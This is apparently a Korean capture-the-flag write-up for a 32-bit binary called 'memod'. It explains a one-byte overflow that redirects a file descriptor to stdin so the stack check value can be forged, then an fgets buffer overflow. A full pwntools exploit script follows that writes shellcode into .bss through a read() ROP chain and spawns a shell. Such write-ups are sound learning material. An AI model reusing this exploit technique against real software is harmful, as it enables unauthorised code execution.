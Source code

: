 # 문제
***

memod 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

file 명령어 결과는 다음과 같다.
```
memod: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=0609d9d923e140f16f00fe4df883f8250b195222, not stripped
```

바이너리 코드
```
...
char s; // [ebp-128h]
char file[32]; // [ebp-28h]
int fd; // [ebp-8h]
int s2;
...
for(i=0;i<=32;++i)
{
    s=getchar();
    if((unsigned int)(s-48) > 9)
    {
        file[i]=0;
        break;
    }
    file[i]=s;
}
if(!file[0])
{
    ...
    exit(0);
}
read(fd,&canary_backup,4u);
s2=canary_backup;
...
fgets(&s,512,stdin);
...
if(memcmp(&canary_backup,&s2,4u))
{
    ...
    exit(-1);
}
return 0
```

for문에서 1byte overflow가 발생한다. 이를 통해서 fd에 1byte 값을 덮어쓸 수 있기 때문에 fd를 내가 원하는 값으로 변경할 수 있다. (파일 디스크립터는 사용하지 않는 가장 작은 파일 디스크립터 번호를 할당받는다. 0,1,2는 stdin, stdout, stderr) 


fgets 함수에서 buffer overflow가 발생한다. 

그리고 NX가 diabled되어 있기 때문에 bss 영역에서 shellcode를 실행할 수 있다.

## exploit 방법
1. 1byte overflow를 통해서 fd를 0으로 바꾼다. 이를 통해서 canary값을 내 입력값으로 바꿀 수 있다.
2. canary값을 알고 있기 때문에 fgets 함수에서 발생하는 buffer overflow로 eip를 컨트롤 할 수 있다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/round2/memod/memod"

p=process(file_path)

read_plt=0x80484f0
pppr=0x08048836
bss_sec=0x8049b90

shell = asm(shellcraft.sh())

pay="7"*32+"A"  # 1byte bof -> fd = 0

p.send(pay)
time.sleep(0.5)
p.send("AAAA") # canary = 0x41414141

p.recvuntil(";p\n")

pay2="A"*300
pay2+=p32(read_plt)
pay2+=p32(pppr)
pay2+=p32(0)
pay2+=p32(bss_sec)
pay2+=p32(0x100)
pay2+=p32(bss_sec)

p.sendline(pay2)
time.sleep(0.5)
p.send(shell)

p.interactive()
```

# 알게 된 것
***
1. fgets / gets / scanf/ getchar 등의 함수는 입력 버퍼를 가지고 있다. 따라서 입력 버퍼에 저장되어 있는 입력값들을 입력으로 받는다. 하지만 read(0,&buf,0x100) 는 입력 버퍼에서 입력값을 읽어오는 것이 아니라 해당 함수가 호출된 이후에 들어오는 입력을 받는다. 

=> fgets와 같은 함수로 입력을 받은 뒤 바로 read함수를 호출하는 경우 send 사이에 time.sleep()을 넣어줘야 한다.

2. fgets, scanf, gets는 엔터까지 입력을 받기 때문에 .sendline으로 입력을 넣어줘야 한다.

   getchar, read 함수는 .send로 입력을 넣어준다.
